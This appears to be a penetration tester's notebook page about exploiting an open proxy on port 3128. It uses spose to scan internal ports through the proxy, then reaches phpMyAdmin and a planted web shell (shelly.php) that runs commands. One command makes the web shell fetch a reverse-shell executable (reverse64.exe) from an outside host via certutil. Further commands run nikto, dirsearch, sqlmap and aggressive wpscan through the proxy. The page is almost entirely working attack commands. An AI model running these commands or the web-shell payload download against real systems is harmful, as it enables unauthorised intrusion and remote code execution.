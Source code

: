 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Spose
```bash - kali
git clone https://github.com/aancw/spose.git && cd spose
```

```bash - kali
python3 spose.py --proxy http://$TARGET:3128 --target 127.0.0.1
```

![[Pasted image 20220610140446.png]]

#### Foxy Proxy
![[Pasted image 20220610133805.png]]

Once foxy proxy is set up, we now try visiting one of the ports found by spose:

http://127.0.0.1:3306
http://127.0.0.1:8080

Visiting 8080, we see a link for /phpmyadmin

[[phpmyadmin]]

```bash - kali
curl --proxy $TARGET:3128 "http://127.0.0.1:8080/shelly.php?cmd=whoami" 
```

[[1._Reverse Shells (WIN)#Stageless Payloads]]

[[rlwrap]]

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[4._File Transfers]]

```bash - kali
curl --proxy $TARGET:3128  "http://127.0.0.1:8080/shelly.php?cmd=certutil%20-urlcache%20-split%20-f%20http%3A%2F%2F192.168.49.57%2Freverse64.exe"
```

#### Nikto
```bash - kali
nikto -h $TARGET -useproxy http://$TARGET:3128
```

#### dirsearch 
```bash - kali
dirsearch -u http://$TARGET --proxy=$TARGET:3128
```

#### sqlmap
```bash - kali
sqlmap -u http://$TARGET/sqli/Less-1/?id=1 --dbs --proxy http://$TARGET:3128
```

#### Wordpress wpscan
```bash - kali
wpscan -e ap,at,tt,cb,dbe,u,m --detection-mode aggressive --plugins-detection aggressive -t 30 --url http://$TARGET --proxy http://$TARGET
```
